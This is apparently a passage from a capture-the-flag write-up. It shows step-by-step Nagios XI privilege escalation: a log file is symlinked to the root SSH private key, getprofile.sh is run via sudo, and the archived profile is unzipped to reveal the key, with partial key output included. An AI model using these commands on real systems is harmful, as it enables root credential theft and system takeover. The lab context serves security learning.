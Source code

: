 We see root user can login using SSH key if it is generated and available in root directory.

We start by creating a symlink named `phpmailer.log` in `/usr/local/nagiosxi/tmp/`. And point it to the root user SSH private key.

```shell
nagios@monitored:~$ rm /usr/local/nagiosxi/tmp/phpmailer.log
rm /usr/local/nagiosxi/tmp/phpmailer.log
nagios@monitored:~$ ln -s /root/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log
<t/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log
nagios@monitored:~$
```

And we finish of by executing `getprofile.sh` with an arbitrary directory name.

```shell
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 1
<r/local/nagiosxi/scripts/components/getprofile.sh 1
mv: cannot stat '/usr/local/nagiosxi/tmp/profile-1sudo.html': No such file or directory
-------------------Fetching Information-------------------
Please wait.......
Creating system information...
...[OMITTED]...
```

We now copy the zip file to `/tmp` to process and to get the ssh key.

```shell
nagios@monitored:~$ cp /usr/local/nagiosxi/var/components/profile.zip /tmp/
cp /usr/local/nagiosxi/var/components/profile.zip /tmp/
nagios@monitored:~$ cd /tmp
cd /tmp
nagios@monitored:/tmp$
```

Unzip file.

```shell
nagios@monitored:/tmp$ unzip profile.zip
unzip profile.zip
...[OMITTED]...
  inflating: profile-1715851496/phpmailer.log
...[OMITTED]...
```

And we got the key.

```shell
nagios@monitored:/tmp$ cat profile-1715851496/phpmailer.log
cat profile-1715851496/phpmailer.log
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAnZYnlG22OdnxaaK98DJMc9isuSgg9wtjC0r1iTzlSRVhNALtSd2C
FSINj1byqeOkrieC8Ftrte+9eTrvfk7Kpa8WH0S0LsotASTXjj4QCuOcmgq9Im5SDhVG7/
...[OMITTED]...
```

Now we add this key to a file on our local attack machine and chmod the file permission to 600.
